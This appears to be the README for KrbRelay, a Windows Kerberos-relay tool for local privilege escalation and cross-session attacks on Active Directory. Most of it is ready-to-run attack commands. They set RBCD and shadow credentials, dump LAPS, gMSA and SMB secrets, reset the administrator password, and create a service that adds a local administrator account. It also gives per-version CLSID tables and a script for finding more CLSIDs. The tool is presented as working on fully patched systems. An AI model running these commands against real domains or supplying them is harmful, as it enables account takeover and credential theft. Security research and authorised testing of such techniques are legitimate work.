

# KrbRelay

Relaying 3-headed dogs.
More details at https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html and https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html

This should be working on most fully patched Windows systems. There may be difficulties with Server OS in lab environments because of the firewall blocking the OXID resolver however, this will most likely not be an issue during real life engagements, same goes for CLSIDs.



### Supported Protocols and Features

Some protocols are more completed than others, PR's are welcomed. 

* LDAP/LDAPS
* HTTP
  * EWS
* SMBv2
* RPC over SMB
  * MS-SAMR
  * MS-SCMR
  * MS-RPRN
  * MS-RRP
  * MS-LSAT/MS-LSAD

### Examples

````
# LPE
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred

# Cross-Session LDAP
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!

# Cross-Session HTTP
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182

# Cross-Session SMB
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""
````

 `CheckPort.exe` is a C# tool that can be used to discover available ports for the OXID resolver.

```
C:\Users\domain_user\Desktop\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] Port: 1024 is available
```


## CLSIDs

We'll need to unmarshal our OBJREF inside of a process that would allow authentications over the network, this can be verified by looking at the `Impersonation Level` 

* RPC_C_IMP_LEVEL_DEFAULT			 # Will not work
* RPC_C_IMP_LEVEL_ANONYMOUS    # Will not work
* RPC_C_IMP_LEVEL_IDENTIFY             # Works for LDAP
* RPC_C_IMP_LEVEL_IMPERSONATE   # Required for SMB
* RPC_C_IMP_LEVEL_DELEGATE

When relaying to LDAP or any other service that has signing enabled but not enforced we would also need to verify that the `Authentication Level` of the process is set to `RPC_C_AUTHN_LEVEL_CONNECT`.

Processes running under `NT Authority\Network service` will use the SYSTEM account when authenticating over the network.

Tool for discovering CLSIDs: https://github.com/tyranid/oleviewdotnet

```powershell
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel
```


#### Windows 10 1903

```
# SYSTEM Relay
0bae55fc-479f-45c2-972e-e951be72c0c1 # RPC_C_IMP_LEVEL_IDENTIFY
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE 

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE 
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE 
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE 
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE 
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE 
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2019
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
354ff91b-5e49-4bdc-a8e6-1cb6c6877182 # RPC_C_IMP_LEVEL_IMPERSONATE 
38e441fb-3d16-422f-8750-b2dacec5cefc # RPC_C_IMP_LEVEL_IMPERSONATE 
f8842f8e-dafe-4b37-9d38-4e0714a61149 # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2016
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE
5f7f3f7b-1177-4d4b-b1db-bc6f671b8f25 # RPC_C_IMP_LEVEL_IMPERSONATE
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE
98068995-54d2-4136-9bc9-6dbcb0a4683f # RPC_C_IMP_LEVEL_IMPERSONATE
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE
bdb57ff2-79b9-4205-9447-f5fe85f37312 # RPC_C_IMP_LEVEL_IMPERSONATE
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE
```


## Error codes

Doesn't work the first time? try again then check these error codes, and if you are going to open an Issue, please paste the full output.

#### Firewall blocking the OXID resolver

```
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable. (Exception from HRESULT: 0x800706BA)
```
#### Bad CLSID

```
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object (Exception from HRESULT: 0x80080004 (CO_E_BAD_PATH))
```
#### Kerberos Issues (Authentication type not recognized), Will work after reboot/clock sync

```
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

#### Parsing Error, valid apRep tickets starts with 6f

```
[*] apRep1: fe534d4240000100160000c00100010001000000000000000100000000000000000000000000000035000000006c0000000000000000000000000000000000000900000048006000605e06092a864886f71201020203007e4f304da003020105a10302011ea411180f32303232303230373134303935325aa5050203045ad0a603020121a90b1b094854422e4c4f43414caa153013a003020101a10c300a1b0877696e3230313624
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```

#### CLSID impersonation level or authentication level too low

```
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```


### Acknowledgements

* [Vletoux ](https://twitter.com/mysmartlogon) for starting [RPCForSMBLibrary](https://github.com/vletoux/RPCForSMBLibrary)
* [James Forshaw](https://twitter.com/tiraniddo) for introducing Kerberos relaying and [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)
* [TalAloni](https://github.com/TalAloni/) for [SMBLibrary](https://github.com/TalAloni/SMBLibrary)
* [MichaelGrafnetter](https://twitter.com/mgrafnetter) for [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
